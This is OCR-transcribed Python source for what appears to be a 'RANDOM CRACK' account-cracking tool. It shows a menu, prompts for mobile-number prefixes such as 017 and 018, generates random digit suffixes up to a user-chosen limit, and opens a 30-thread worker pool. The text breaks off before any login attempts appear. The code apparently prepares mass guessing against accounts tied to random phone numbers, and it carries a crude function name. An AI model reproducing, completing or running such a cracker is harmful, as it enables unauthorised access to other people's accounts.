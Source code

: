   RASAH

  

========================

def mumitx():

	print('==================================================')

def Main():

        os.system("clear")

        print(logo)

        print(" [1] RANDOM CRACK")

        print(" [0] Exit")

        Mumit =input("\n [?] Choose : ")

        if Mumit in ["1","01"]:

            fuck()

        if Mumit in [" 0", "00"]:

            exit()

        else:

            exit()

            

def fuck():

    user=[]

    os.system('clear')

    print(logo)

    print('[+] EXAMPLE CODE: 017, 018, 019, 016')

    code = input('[?] CHOOSE CODE : ')

    name = ''.join(random.choice(string.digits) for _ in range(2))

    cod = ''.join(random.choice(string.digits) for _ in range(2))

    os.system('clear')

    print(logo)

    print('[+] EXAMPLE: 2000 3000 5000 10000 ')

    limit = int(input('[?] CHOOSE : '))

    for nmbr in range(limit):

        nmp = ''.join(random.choice(string.digits) for _ in range(4))

        user.append(nmp)

    with ThreadPool(max_workers=30) as yaari:
